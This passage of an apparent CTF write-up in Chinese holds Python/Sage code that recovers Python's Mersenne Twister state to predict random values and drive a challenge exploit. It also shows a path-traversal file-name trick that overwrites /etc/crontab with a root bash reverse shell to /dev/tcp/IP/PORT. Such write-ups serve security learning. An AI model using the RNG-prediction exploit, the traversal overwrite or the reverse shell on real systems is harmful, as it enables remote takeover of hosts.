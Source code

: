 ```python
    rng.setstate((3,tuple(state+[624]),None)) 
    M.append(getRows(rng))
    
print('--------------------------------------------------')
M=Matrix(GF(2),M)
y=[]
for i in range(n):
    y+=list(map(int, (bin(D[i])[2:].zfill(16))))
y=vector(GF(2),y)
s=M.solve_left(y)
G=[]
for i in range(624):
    C=0
    for j in range(32):
        C<<=1
        C|=int(s[32*i+j])
    G.append(C)
import random
RNG1 = random.Random()
for i in range(624):
    G[i]=int(G[i])
RNG1.setstate((int(3),tuple(G+[int(624)]),None))

#------------------------------------------------------------
#控制到当前状态
RNG1.getrandbits(64)
ss=0
d1=[]
while ss < 625 * 32:
    d1.append(RNG1.getrandbits(16))
    d1.append(RNG1.getrandbits(16))
    ss += 32

print(d1[-10:-1])


print('------------att-------------')
attack_monster(p, RNG1,Dall)

p.interactive()

#--------------------------------------------------------------
```

黑盒部分：

只有输入文件名以及输入文件内容这些功能

发现可以文件名任意写，覆盖crontab定时任务，执行shellcode来远程操控

```bash
....//....//....//....//etc/crontab

SHELL=/bin/sh

PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

* * * * * root /bin/bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'
```
